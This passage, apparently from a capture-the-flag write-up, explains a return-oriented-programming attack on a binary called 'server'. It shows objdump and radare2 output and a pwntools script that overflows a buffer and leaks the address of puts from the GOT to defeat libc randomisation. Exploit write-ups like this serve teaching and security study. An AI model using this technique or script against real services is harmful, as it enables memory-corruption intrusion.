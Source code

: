 Using [ROP](https://en.wikipedia.org/wiki/Return-oriented_programming) we can read data from anywhere, this is done because the function `puts` actually prints bytes from the address pointed by the `rdi` register. So by chaining 
`pop rdi` and `call puts` gadgets we can mount a read-anywhere attack. In order to calculate `libc` base address, we need to read the address of any symbol from it. Reading any symbol from the [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table) table allows us to leak addresses from `libc`, one good candidate is `puts` entry in `GOT`, to get its address we can use `objdump -R`:

```shell
$ objdump -R server
server:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE
...
0x00000000602018 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
...
$ 
```

Now we only need a `pop rdi` gadget. By using `radare2` we can get that, below we see that radare2 found two `pop rdi` gadgets:

```shell
$ radare2 server
[0x00400dc0]> /Rl pop rdi
0x00401550: pop rdi; ret; 
0x004015c3: pop rdi; ret;
[0x00400dc0]> 
```

The following python code connects to the server, interact with it and then send our rop chain. I'm using [Pwntools](https://github.com/Gallopsled/pwntools) to do this since it makes network programming much more easy and funny.

```python
from pwn import *

r = remote('localhost', 12345)
pop_rdi = 0x00401550
puts_got = 0x602018
call_puts = 0x0040122f

rop = p64(pop_rdi)
rop += p64(puts_got)
rop += p64(call_puts)

payload = "A" * 136  # fill the buffer
payload += rop       # Append our rop chain

r.sendlineafter("> ", "wrap")  # Send the wrap command
r.sendlineafter("|> ", "-1")  # set the size to -1
r.sendlineafter("|> ", payload)  # send the payload

# Get the last sent line, this contains raw data read from *puts_got
r.recvuntil("Wow! This looks so beautiful\n")  # recv the data
data = r.recvline().strip()
print(repr(data)) # print raw data so we can verify

# Pad the address to 8 bytes so we can unpack it
pad = "\x00" * (8 - len(data))
addr = data + pad

# Unpack the addr
puts_absolute = u64(addr)
print "puts is at", hex(puts_absolute)
```